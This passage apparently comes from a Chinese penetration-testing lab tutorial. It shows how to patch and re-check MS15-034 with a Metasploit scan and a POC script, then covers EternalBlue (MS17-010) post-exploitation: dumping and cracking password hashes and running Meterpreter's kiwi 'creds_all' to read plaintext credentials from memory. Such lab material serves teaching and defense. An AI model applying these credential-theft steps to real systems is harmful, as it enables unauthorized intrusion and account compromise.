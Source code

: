 ## `第五步`第一种漏洞防御
这个漏洞是对你的主机的输出缓存漏洞进行攻击的，我们将它关掉就可以实现防御

关闭内核缓存后，再执行攻击命令就不会出现蓝屏情况了

## `第六步`再次发起漏洞利用，发现靶机不蓝屏了

## 第二种漏洞防御
`第七步`重启内核缓存

`第八步`利用漏洞防御补丁来进行防御
- 针对MS15-034漏洞进行防御
- 上传Windows6.1-KB3042553-x64-2008R2.msu（微软官方网站下载）
- 安装后系统会自动重启
- `第九步`装完后对系统漏洞进行检测
```
msf6 > use 1    //执行扫描
> set rhosts 192.168.10.142   //准备对此IP进行扫描
> run       //执行


[-] Target is not vulnerable    //目标可能不在脆弱了

```
- `第十步`再次使用POC脚本检测
```
[root]python2 cve-2015-1635.poc

  
[*] Audit Started     //开始审计
[*] Looks Patched     //看起来已修补过
```
## CVE-2017-0143（MS17-010）漏洞
- 永恒之蓝
  - 漏洞通过TCP的445和139端口，利用SMB远程代码执行漏洞
  - 攻击者可以在目标系统上执行任意代码
- 影响系统
  - Windows 7/8/8.1/10
  - Windows Server 2008/2012/2016
- 扫描漏洞和攻击漏洞步骤都是一样的
### 获取账号密码
- 第一种
  - 当执行完攻击脚本后会进入
  ![](/images/获取的用户名密码.png)
  - 现在最前面的就是用户名，后面发白的部分就是明文密码（第三个`:`到第四个`:`之间就是密码的明文加密
  - 明文密码可以使用一个网站来进行解密：`https://www.cmd5.com/`破解MD5弱密码
- 第二种获取密码
  - 加载kiwi模块，通过kiwi模块获取用户口令
  ```
  meterpreter > load kiwi     //加载kiwi
  meterpreter > creds_all     //读取系统中的账户信息 
  只有当内边的用户将用户名密码输入并开机，那么我们就可以通过监察内存来获得用户名密码
  ```
  ![](/images/内存用户名密码.png)
### 进程迁移
```
meterpreter > getuid    //获取用户信息
Server username: NT AUTHORITY\SYSTEM


```